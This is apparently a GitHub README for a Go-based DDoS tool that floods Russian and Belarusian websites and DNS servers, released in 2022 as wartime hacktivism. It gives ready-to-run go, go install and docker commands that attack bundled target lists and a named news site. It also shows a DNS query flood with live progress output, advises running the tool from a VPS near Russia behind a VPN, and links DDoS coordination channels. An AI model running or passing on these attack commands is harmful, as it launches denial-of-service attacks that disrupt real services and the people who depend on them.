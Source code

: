 [![Github All Releases](https://img.shields.io/github/downloads/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/total.svg)](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/releases)
[![Go Report Card](https://goreportcard.com/badge/github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj)](https://goreportcard.com/report/github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj)
![Build@release](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/actions/workflows/release.yml/badge.svg)
![Tests@main](https://github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/actions/workflows/test.yml/badge.svg)

### Hi there 👋

If this repo becomes taken down, then it is a sign that GitHub supports war atrocities commited by putin!

IMPORTANT!!! Please take your security seriously and use VPN while running this software from your own devices(PC/Laptop/Android/etc)!

NOTE: Since this app is not signed by any certificate for obvious reasons, Windows Defender will complain that this app is from an unknown source. It is safe to run this app anyway **unless it was downloaded from another location**. In which case the app may be altered, so be vigilant and compare the hashes of your binaries!

![GUI](Capture.JPG)

This repository was created in order to help defend against Russia propaganda during the war activities of Russian armies in Ukraine 2022.

There are two variants of the program:
- GUI
- CLI

For GUI simply download the latest program for your operating system from the Releases section.
It is possible to run CLI program using Docker.


# Usage
## Desktop App
- `RusskijKorablIdiNaxuj.exe.zip` for Windows platforms 
- `RusskijKorablIdiNaxuj.apk` for Android platforms 
- `RusskijKorablIdiNaxuj.tar.xz` for Linux platforms 
- Please build manually for Mac-OS. 

After executing the binary there will be a window similar to the one in the screenshot above. If you have a less formidable PC, then reduce "Workers" number to something like 500.
Then you can click on the little triangle on the right and start the process.

**NOTE:** Windows may complain that the app is not signed or from unknown publisher. This is normal since it was not signed by a legitimate Windows certificate for obvious reasons(well, developers must register and obtain this certificate from Microsoft when they want to publish their apps).

## Command line

Just clone this repo, install Go and from clonned directory do (preferrably on a VPS that is close to Russia):
```
go run ./cmd/RusskijKorablIdiNaxuj-cli -i targets/targets.txt
```

Also, you can install the GUI executable using this command(although you will still need Fyne dependencies for your system):
```
go install github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj@latest
```

Or the following command for the cli version:

```
go install github.com/RusskijKorablIdiNaxuj/RusskijKorablIdiNaxuj/cmd/RusskijKorablIdiNaxuj-cli@latest
```

NOTE: It may consume a lot of RAM as it tries to leave connections open for a as long time as possible. Minimum 4GB is needed.

## Docker

You can run docker for all targets at the same time using this command:
```
docker run -d --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest
```

If it is crashing due to OOM:
```
docker run -d --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N 1000
```

You can also specify different target lists using `-i app/{target}.json`, where `{target}` can be one of:
 - all.json
 - belarus.json
 - russia.json
 - api.json
 - dns.json

It is possible to see attack progress using this command:
```
docker run -i --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N 1000 -i /app/dns.json -s=false
```
The output will be something like this:
```
root@putinhujlo-ch1:~/RusskijKorablIdiNaxuj# docker run -i --restart unless-stopped ghcr.io/russkijkorablidinaxuj/russkijkorablidinaxuj:latest -N=5000 -i /app/dns.json -s=false
dns://194.54.14.186:53  0 % [---------------------------] 0 / -1
dns://194.54.14.186:53   5 % [>--------------------]  193 / 3978
dns://194.54.14.187:53   6 % [>--------------------]  226 / 3685
dns://194.67.7.1:53     94 % [===================>-] 4993 / 5284
dns://194.67.2.109:53   90 % [==================>--] 3058 / 3414
```

The progress bar shows how many timeouts there are relative to the requests per second. The higher this ratio to 100% the better!

NOTE: You can also specify single targets using `-i` command, e.g. `-i https://tass.ru/` (it must have either http or https. Also, `dns://` works too for dns query flood)

# Important resources

- International Ukraine DDOS Alliance Telegram: https://t.me/ukraineddos
- IT ARMY of Ukraine Telegram: https://t.me/itarmyofukraine2022

# Contribute targets/Code

Either create an issue or a PR.

